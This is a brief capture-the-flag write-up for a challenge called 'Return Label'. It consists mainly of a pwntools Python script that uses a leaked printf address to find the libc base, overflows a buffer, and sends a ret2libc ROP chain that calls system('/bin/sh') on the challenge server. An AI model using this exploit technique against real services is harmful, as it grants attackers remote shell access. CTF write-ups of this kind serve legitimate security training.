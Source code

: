 # Return Label
> LongChampion, 06/04/2020

## Challenge
Well, this challenge give you address of a function in libc to calculate libc base address.  
You just need to build a ROP chain.

## Solution
```python
#!/usr/bin/env python2
from pwn import *

r = remote("jh2i.com", 50005)
lib = ELF("./libc6_2.23-0ubuntu10_amd64.so", checksec=False)

r.recvuntil("printf is at ")
Leak = r.recvuntil(')')[:-1]
LIBC = int(Leak, 16) - lib.symbols["printf"]
log.success("LIBC: " + hex(LIBC))

system = LIBC + lib.symbols["system"]
binsh = LIBC + lib.search("/bin/sh\0").next()
pop_rdi = LIBC + 0x0000000000021102

r.sendlineafter("?", 'A'*0x90 + p64(0) +
                p64(pop_rdi) + p64(binsh) + p64(system))
r.interactive()
```
